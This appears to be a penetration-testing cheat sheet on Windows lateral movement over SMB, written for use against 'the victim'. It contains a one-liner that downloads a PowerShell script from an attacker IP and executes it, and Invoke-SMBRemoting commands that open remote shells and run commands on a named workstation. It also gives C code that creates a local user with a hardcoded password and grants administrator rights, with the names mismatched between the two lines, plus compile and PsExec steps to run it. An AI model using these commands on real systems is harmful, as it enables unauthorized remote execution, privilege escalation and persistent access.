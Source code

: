 # Powershell Implementation
*NOTE: We need admin access to SMB on the victim, can be abused using also injected kerberos ticket!*
- Invoke the script: `iex(iwr http://192.168.45.223/Invoke-SMBRemoting -UseBasicParsing)`

## Cheetsheet:
<ins>Interactive Shell</ins>
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose`
  - `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose`

<ins>Command Execution</ins>
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService`
- `Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose`

# EXE Implementation

Save the content below as adduser.c:

```
#include <stdlib.h>
int main ()
{
 int i;
    i = system ("net user amit Password123! /add");
    i = system ("net localgroup administrators salar /add");
 return 0;
}
```
Compile it:
- `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`

Then, run: `.\PsExecLat file01 C:\Windows\Tasks\adduser.exe`
